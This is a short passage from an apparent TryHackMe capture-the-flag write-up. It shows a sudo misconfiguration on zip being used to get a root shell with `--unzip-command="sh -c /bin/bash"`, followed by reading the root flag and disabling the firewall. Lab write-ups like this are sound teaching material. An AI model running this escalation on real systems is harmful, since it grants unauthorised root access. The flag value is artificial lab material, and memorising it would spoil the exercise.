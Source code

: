 Technically we can abuse the `-T` flag that test a zip file integrity by running `--unzip-commands`

we create somefile and use `1` to zip faster

```
merlin@ubuntu:~$ touch somefile.txt
merlin@ubuntu:~$ ls
somefile.txt user.txt
merlin@ubuntu:~$ sudo zip 1.zip somefile.txt -T --unzip-command="sh -c /bin/bash"
adding: somefile.txt (stored 0%)
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Now we get our flag

```
root@ubuntu:/root# cat root.txt
THM{tomcat_ghost}
```

we find another `ufw` folder with a sh script

```
root@ubuntu:/root# cd ufw
root@ubuntu:/root/ufw# ls
ufw.sh
root@ubuntu:/root/ufw# ./ufw.sh
Firewall stopped and disabled on system startup
```

lol ok we control the firewall

nice room
